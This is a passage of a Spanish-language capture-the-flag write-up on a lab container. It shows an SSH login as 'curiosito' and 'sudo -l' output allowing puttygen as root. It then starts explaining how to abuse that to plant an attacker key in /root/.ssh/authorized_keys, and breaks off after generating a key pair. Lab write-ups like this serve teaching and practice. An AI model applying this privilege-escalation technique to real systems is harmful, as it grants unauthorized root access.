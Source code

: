 ```bash
                                                                   
┌──(zikuta㉿zikuta)-[~]
└─$ ssh curiosito@172.17.0.2
curiosito@172.17.0.2's password: 
Linux c63ee014a69b 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
curiosito@c63ee014a69b$
```

Confirmando acceso al sistema y completando la explotación.


# Escalada de privilegios – Usuario `curiosito` a `root` usando `puttygen`


Análisis de `sudo -l`

```bash
curiosito@c63ee014a69b:~$ sudo -l
Matching Defaults entries for curiosito on c63ee014a69b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User curiosito may run the following commands on c63ee014a69b:
    (root) NOPASSWD: /usr/bin/puttygen
```

Este resultado nos indica que el usuario `curiosito` **puede ejecutar el binario `/usr/bin/puttygen` como root sin necesidad de contraseña**.

**puttygen** es una herramienta para generar y convertir claves SSH, típicamente usada para convertir claves de formato OpenSSH a PuTTY (.ppk), o viceversa.

Esto puede ser abusado para generar una **clave pública controlada por nosotros** y escribirla en `/root/.ssh/authorized_keys`, permitiéndonos conectarnos como `root` por SSH sin necesidad de contraseña.

## Paso 1: Generar un par de claves SSH

Desde la cuenta de `curiosito`, generamos una nueva clave privada/pública:

```bash
curiosito@c63ee014a69b:~$ ssh-keygen -t rsa -b 2048 -f my_root_key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in my_root_key
Your public key has been saved in my_root_key.pub
The key fingerprint is:
```
